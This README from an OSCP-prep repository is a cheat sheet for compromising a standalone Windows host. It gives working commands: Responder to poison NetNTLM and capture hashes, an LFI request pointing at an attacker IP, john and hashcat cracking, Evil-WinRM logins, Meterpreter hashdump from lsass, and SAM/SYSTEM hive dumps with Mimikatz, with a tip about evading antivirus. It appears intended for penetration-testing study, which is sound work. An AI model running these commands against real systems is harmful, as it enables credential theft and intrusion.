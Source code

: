 # Windows Resources 
Use this folder for triaging and compromising a standalone Windows box. For domain compromising, see [Active_Directory](https://github.com/Scr1ptK1ddie/OSCPprep/tree/main/ActiveDirectory) folder.   
## Contents 
- [Windows Resources](#windows-resources)
  * [Contents](#contents)
  * [Tools](#tools)
    + [Impacket](#impacket)
    + [Responder (not allowed on the OSCP exam, but a common pen testing tool)](#responder--not-allowed-on-the-oscp-exam--but-a-common-pen-testing-tool-)
    + [Evil-WinRM](#evil-winrm)
    + [Metasploit and Meterpreter](#metasploit-and-meterpreter)
## Tools
### Impacket 
https://github.com/SecureAuthCorp/impacket

    apt install impacket-scripts

Local Locations:

    /usr/share/doc/python3-impacket/examples   
    
### Responder (not allowed on the OSCP exam, but a common pen testing tool)   
Allows you to spoof various services then capture hashes from devices that try to authenticate to those.  
Common use: poison responses during NetNTLM authentication to capture credentials. Might be able to relay the challenge instead of just capturing it (if SMB signing is not enforced). Ref: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html       
  
Install:   

    git clone https://github.com/lgandx/Responder   
 Usage:   

     sudo responder.py -I eth0   #start on specified interface. Hashes will be captured when a device tries to authenticate to resources on the network.               
    
You might be able to use a LFI vulnerability to request a resource and capture a hash using Responder. Ex - http://site.com/?page=//10.10.14.25/somefile           
Captured hashes will be stored in the logs folder, in a .txt file named for the protcol-hash type- and IP captured from.     
Crack Hashes from responder:     

    john hashes.txt   #John the Ripper will automatically detect the format of hashes collected by Responder.    
    hashcat -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    hashcat -m 5600   #NTLMv2 (hashes captured from using a tool like Responder)   
    
### Evil-WinRM
Access port 5985. Use with a username / password or username / hash. 

    $ evil-winrm -u Administrator -p password -i 10.10.10.10    

### Metasploit and Meterpreter   
Meterpreter shell: need to migrate to lsass process to dump hashes, due to process permissions on Windows.         
    
    meter > migrate -N lsass.exe       
    meter > hashdump     
    
### Dump Hives and Extract with Mimikatz     
AV products will flag on Mimikatz so only do this if you are sure if won't (otherwise crack the hashes locally).     

    C:\Temp> reg save hklm\sam sam.hive && reg save hklm\system system.hiv     
    C:\Temp> c:\tools\mimikatz\x64\mimikatz.exe "lsadump::sam /sam:sam.hiv /system:system.hiv" "exit"   
    
    username:userid:LANMAN:NTHASH   #hash format when extracted  
